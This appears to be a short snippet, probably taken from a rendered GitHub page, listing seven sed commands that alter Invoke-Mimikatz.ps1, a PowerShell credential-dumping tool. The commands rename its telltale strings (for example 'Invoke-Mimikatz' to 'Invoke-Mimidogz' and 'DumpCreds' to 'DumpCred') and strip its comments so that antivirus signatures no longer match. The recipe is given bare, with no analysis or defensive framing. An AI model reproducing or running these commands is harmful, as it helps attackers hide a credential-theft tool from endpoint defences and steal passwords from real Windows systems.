 `sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1`

`sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1`

`sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1`

`sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1`

`sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1`

`sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1`

`sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1`
